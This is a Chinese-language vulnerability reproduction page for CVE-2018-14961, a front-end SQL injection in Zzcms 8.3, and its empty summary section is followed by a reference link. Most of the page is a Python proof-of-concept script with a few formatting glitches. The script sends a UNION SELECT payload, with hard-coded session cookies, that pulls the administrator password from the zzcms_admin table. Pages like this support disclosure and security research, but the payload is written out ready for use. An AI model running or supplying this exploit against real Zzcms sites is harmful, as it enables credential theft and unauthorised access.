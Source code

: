 ```yaml
---
title: "（CVE-2018-14961）Zzcms 8.3 前台sql注入"
id: zhfly3314
---
```


# （CVE-2018-14961）Zzcms 8.3 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

```
#!/usr/bin/env python
#Author:Sublime
#coding:utf-8
import requests as req

url = “[http://0-sec.org:8080/dl/dl_sendmail.php](http://0-sec.org:8080/dl/dl_sendmail.php)”

cookies = {‘UserName’:‘test’,‘PassWord’:‘81dc9bdb52d04dc20036dbd8313ed055’}

data = { ‘sql’:‘select email from zzcms_dl where id=-1 union select pass from zzcms_admin #’} `q = req.post(url,data,cookies=cookies,allow_redirects=False)

print q.status_code

print q.content` 
```

测试结果为：

![image](../img/8596803711a0012a3cd1aca4bbda0e81.png)

## 参考链接

> https://www.anquanke.com/post/id/156660